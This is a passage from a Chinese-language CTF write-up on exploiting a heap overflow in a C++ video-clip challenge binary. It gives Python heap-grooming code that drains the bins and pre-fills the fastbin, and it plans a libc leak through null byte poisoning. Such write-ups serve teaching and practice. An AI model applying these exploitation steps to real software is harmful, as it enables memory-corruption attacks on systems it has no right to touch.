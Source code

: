 打开程序，发现bins里面并不是空的，有很多chunks，可能是因为C++的原因吧。这很不方便我们的利用，所以先通过不停地分配clips来把这些bins清空

```python
def clear_heap():
	idx = 0
	for y in xrange(0,15):
		for x in xrange(0x1,0x9):
			create_video("/bin/sh\x00", x * 0x10)
			idx += 1
	for y in xrange(0,20):
		for x in xrange(1,3):
			create_video("/bin/sh\x00", x * 0x10)
			idx += 1
	for y in xrange(0,4):
		for x in xrange(3,4):
			create_video("/bin/sh\x00", x * 0x10)
			idx += 1
	for y in xrange(0,3):
		create_video("/bin/sh\x00", 0x60)
		idx += 1
	return idx #返回下一个用的index
```

这个`/bin/sh`没用的。。。不管他。。。

# 0x04 leak

一开始没看到read之后把size字段重置了，以为那样直接就能leak。。（盲人CTF，bestCTF

首先是要泄露libc的基址，也许要通过虚表地址泄露程序的基址，然后leak需要存在一个UAF，或者overlap chunk，所以要把溢出转换成这种东西。

然后这个我想了一段时间，最后觉得还是用[null byte poisoning](https://github.com/shellphish/how2heap/blob/master/glibc_2.26/poison_null_byte.c)的思路比较合适。

这个利用方法不详细说了，不知道可以看看上面shellphish的how2heap。

然后这里要注意，null byte poisoning要让3个非fastbin的chunk互相连接，而这道题会先`new`一个类的对象，然后在初始化函数里面再`new`其data，所以直接从top chunk取的话没法保证data互相连接，所以要预先对堆做一点处理。还有就是，这题有内存泄露，`delete`掉类的时候只`delete`了data没有`delete`这个类。

怎么预先处理，就是让类的`new`从fastbin里面拿就好了，很简单，所以预先先放几个`0x60`的chunks在fastbin即可。（Video类大小为0x50）

```python
create_video("video struct 1", 0x50) #0
create_video("video struct 2", 0x50) #1
create_video("video struct 3", 0x50) #2
create_video("video struct 4", 0x50) #3
create_video("video struct 5", 0x50) #4
remove(idx+0)
remove(idx+1)
remove(idx+2)
remove(idx+3)
remove(idx+4)
#now 5 0x60 chunk in fastbin
```
